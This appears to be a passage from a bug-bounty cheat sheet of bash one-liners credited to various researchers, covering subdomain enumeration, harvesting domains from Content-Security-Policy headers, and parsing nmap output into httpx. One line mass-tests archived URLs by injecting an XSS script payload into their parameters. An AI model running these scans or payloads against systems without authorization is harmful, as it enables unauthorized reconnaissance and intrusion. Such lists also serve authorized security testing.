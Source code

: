 ```bash
subfinder -d HOST -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf
> @HacktifyS

```bash
waybackurls HOST | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
```

### Get Subdomains from IPs
> @laughface809

```bash
python3 hosthunter.py HOSTS.txt > OUT.txt
```

### Gather Domains from Content-Security-Policy
> @geeknik

```bash
curl -vs URL --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```

### Nmap IP:PORT Parser Piped to HTTPX
> @dwisiswant0

```bash
nmap -v0 HOST -oX /dev/stdout | jc --xml -p | jq -r '.nmaprun.host | (.address["@addr"] + ":" + .ports.port[]["@portid"])' | httpx --silent
```
More Credits: harshinsecurity

